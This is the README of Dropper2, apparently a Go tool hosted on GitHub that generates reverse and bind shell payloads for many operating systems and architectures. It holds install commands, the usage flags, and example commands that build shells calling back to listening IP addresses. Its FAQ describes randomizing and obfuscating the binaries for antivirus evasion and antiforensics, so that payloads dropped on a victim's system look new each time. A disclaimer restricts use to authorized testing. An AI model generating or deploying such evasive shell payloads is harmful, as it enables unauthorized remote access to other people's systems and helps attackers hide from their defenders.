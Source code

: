 Dropper2 (now with more R@nd0m!)

Cross compiling reverse/bind payload generator written in Go.

As with the initial release of <a href="https://github.com/im4x5yn74x/dropper">Dropper</a>, navigate to your <a href="https://github.com/golang/go/wiki/SettingGOPATH">GOPATH</a> on your system and clone the repo using the `go get` command.

<code>go get github.com/im4x5yn74x/dropper2</code>

Navigate to the new `github.com/im4x5yn74x/dropper2` folder and build Dropper2 to begin generating payloads.

<code>go build dropper2.go</code><br>

<code>./dropper2 -h</code>
<pre>
Usage of ./dropper2:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, /bin/busybox, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
<h3>Payload generation examples:</h3>

<code>./dropper2 -a 386 -o bypassturkey -p windows -l 192.168.1.112:446 -s bypass -t reverse</code>

<code>./dropper2 -a arm -o lateNightTacos -p linux -l 10.0.0.25:4433 -s /bin/busybox -t reverse</code>

<code>./dropper2 -a amd64 -o browngravy -p windows -l 0.0.0.0:9090 -s powershell -t bind</code>

<code>./dropper2 -a mips64 -o cheeseburgers -p linux -l 0.0.0.0:31337 -s /bin/busybox -t bind</code>

<code>./dropper2 -a arm -o trapspot -p android -l 25.128.34.6:443 -s /system/bin/sh -t reverse </code>*<h5>(*NOTE: Only works on <a href="https://termux.com/">Termux</a> for Android)</h5>

<h3>FAQ</h3>
<li>What's New with Dropper2?</li>
<ul>- Dropper2 now supports variable randomization within each payload generated.</ul>
<ul>- Dropper2 also uses obfuscation to disguise both the listening host and port as well as built-in Golang artifacts such as where the payload file is written to be compiled.</ul>
<li>What's the reasons for these changes?</li>
<ul>- Antivirus evasion and antiforensics.</ul>
<li>but why tho'...?</li>
<ul>- During forensic analysis of the binaries generated by Dropper 1.0, my team and I discovered artifacts stored within each Golang binary compiled for every platform. These artifacts included certain string values such as your listening IP address and the port used to connect, your shell type provided (/bin/sh, cmd.exe, etc...) as well as the path to the Golang file you compiled. This information could not only inform forensics engineers where you compiled your tool (a.k.a. your GOPATH most likely), but through the use string analysis, they could easily infer as to what the binary's true intentions may be. (10.0.0.100:1337 /bin/sh; Hmmm, I wonder what it could be doing...)

Realistically, these changes need to be implemented in not only Dropper but within Golang itself, especially for penetration testers and privacy conscious individuals who don't want or can't afford to share intimate information regarding their software. That being said, the use of obfuscation came into the mix to help solve the same problem.</ul>
<li>Ok so what do you mean by "R@nd0m", exactly?</li>
<ul>- Again, while reviewing the previous payloads generated by Dropper 1.0, I had noticed the "Windows" binaries that were generated had the tendency of having the same signature no matter how many times I would recreate the binary. Even changing the name of the payload didn't seem to help the matter much either. Thus something needed to be done during the compilation process. The solution came when I had reviewed different randomization algorithms on the <a href="https://play.golang.org/p/KcuJ_2c_NDj">Go Playground</a>, leading me to choose one that could produce the quickest random value while using the most entropy. The use of this function within Dropper2 now allows each variable written into the generated payloads to be a unique value and effectivly creating a random binary signature everytime; thus allowing an attacker to drop the same payload on a victim's system while appearing brand new each time in the eyes of the antivirus.</ul>
<li>Alright, but is it fool-proof; meaning could it still get caught by antivirus?</li>
<ul>- The short answer is: It depends on the current security policies in place on any given system. In a situation where the compromised system has certain group policy rules such as blocking a user from downloading `unknown` binaries from the internet, then the attacker needs to get a bit more creative. Dropper 1 & 2 binaries were never intended to be the "one payload to defeat them all", but to simply generate reverse and bind shell payloads for multiple platforms and hide as much evidence possible regarding their actual intended purpose.

I understand that wasn't exactly the shortest answer, however any security professional knows there are multiple ways to bypass system policy restrictions and industry standard antivirus. For everyone else who doesn't know; at least you get a unique binary each time that you can try to hit them again with in the event you get caught the first time. Again, use your own professional judgment before running random binarys on targeted systems.</ul>
<li>Ok M4x, we're following you. So what about the future of Dropper? Anything up and coming we should know about?</li>
<ul>- Of course there is. It's an active project I've been adding to anytime I either learn cool tricks to implement or I learn more efficiant ways to write my code. Some teasers for future ideas include:</ul>
<ul>* TLS/SSL support<br>
* UDP and IPv6 support<br>
* Blah-blah-blah...(What kind of hacker would I be if I told you all of my secret plans?)</ul>

<li>Are you still learning Golang?</li>
<ul>- Aren't we all?</ul>
<li>Do you have a disclaimer for us?</li>
<ul>- YOU BET I DO!</ul>

<h3>Disclaimer</h3>
This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. <b>DO NOT USE</b> this tool for ILLEGAL purposes or <b>WITHOUT</b> the <b><u>CONSENT</u></b> from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for <u>security consultation</u> or <u>research purposes.</u> I, hereby relinquish <b><u>ALL</u></b> responsiblity for any illegal use of this tool or <b><u>ANY</u></b> binary payloads subsequently generated by the tool as discribed. <b>You have been warned.</b>